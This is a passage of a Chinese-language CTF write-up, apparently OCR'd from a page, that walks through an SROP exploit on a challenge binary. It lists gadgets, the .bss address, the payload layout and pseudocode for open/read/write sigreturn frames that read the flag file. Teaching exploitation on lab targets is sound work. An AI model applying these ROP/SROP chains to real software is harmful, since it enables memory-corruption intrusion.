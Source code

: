 - `mov rax,0xf; ret`：先把 `rax=15`（`SYS_rt_sigreturn`），然后 `ret` 到下一个 gadget，触发信号返回。
    
- `syscall; pop rbp; ret`：执行一次系统调用，然后做一次 `pop rbp; ret`，配合 SROP 恢复寄存器状态。
    
- `leave; ret`：等同于
    
    asm
    
    复制编辑
    
    `mov rsp, rbp pop rbp ret`
    
    用它把栈迁移到我们自己控制的内存区。
    

再来看段地址（`readelf -S chall`）：

- **`.bss` 段起始**：`0x404020`
    
- 我们会把整个 ROP+SROP 链写到这里。
    

---

## 三、利用流程拆解

### 1. 初始 Read → 写入 ROP+SROP 链

程序第一次 `read(0, .bss, 0x1000)`，把我们构造的 payload 写到 `.bss`。  
**Payload 构成**：

csharp

复制编辑

`[flag_name (8 bytes)]   <-- 放字符串 "flag\0" [padding 到 chain_addr] <-- 对齐到链的起始 [chain (可控 ROP+SROP)]`

- `flag_name`：我们把 `"flag\0"` 放在 `.bss` 起始（`0x404020`）。
    
- `chain_addr`：我们从 `.bss+0x100` 开始存放真正的 ROP+SROP 链，以免和前面的数据冲突。
    

### 2. 构造三段 SROP Frame：open / read / write

在 chain 里，我们依次做三件事：

1. **open("./flag", O_RDONLY)**
    
2. **read(fd=3, buf, 0x100)**
    
3. **write(1, buf, 0x100)**
    

每一段都通过下面这个套路触发信号返回并执行 syscall：

python

复制编辑

`# 伪代码 chain += p64(0)              # 对应 syscall; pop rbp; ret 的 pop rbp chain += p64(pop_rax)        # mov rax, 15; ret chain += p64(syscall_ret)    # syscall → rt_sigreturn chain += bytes(frame)        # SigreturnFrame 里填好 rax/rdi/rsi/rdx/rip=rwx ...`
